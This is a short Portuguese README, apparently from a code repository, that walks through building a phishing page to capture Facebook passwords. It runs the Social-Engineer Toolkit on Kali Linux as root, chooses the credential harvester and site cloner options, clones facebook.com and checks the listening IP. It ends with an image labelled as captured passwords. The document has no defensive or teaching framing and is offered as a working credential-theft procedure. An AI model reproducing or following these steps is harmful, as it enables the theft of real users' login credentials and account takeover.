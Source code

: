 # Phishing para captura de senhas do Facebook  

### Ferramentas

- Kali Linux
- setoolkit

### Configurando o Phishing no Kali Linux

- No kali Linux entra no terminal com ``` sudo su ```
- Executar setookit: ``` setoolkit ```
- Escolher primeira opção: ``` 1)Social-Engineering Attacks ```
- Agora segunda opção: ``` 2)Web Site Attack Vectors ```
- Selecionar opção: ``` 3)Credential Harvester Attack Method ```
- Agora clonar o site opção: ``` 2)Site Cloner ```
- Verificar o ip da maquina para escutar: ``` ifconfig ```
- Agora clone o site no set:webattack> Enter the url to clone: http://www.facebook.com

### Resutados

![Alt text](./senha.png "Optional title")
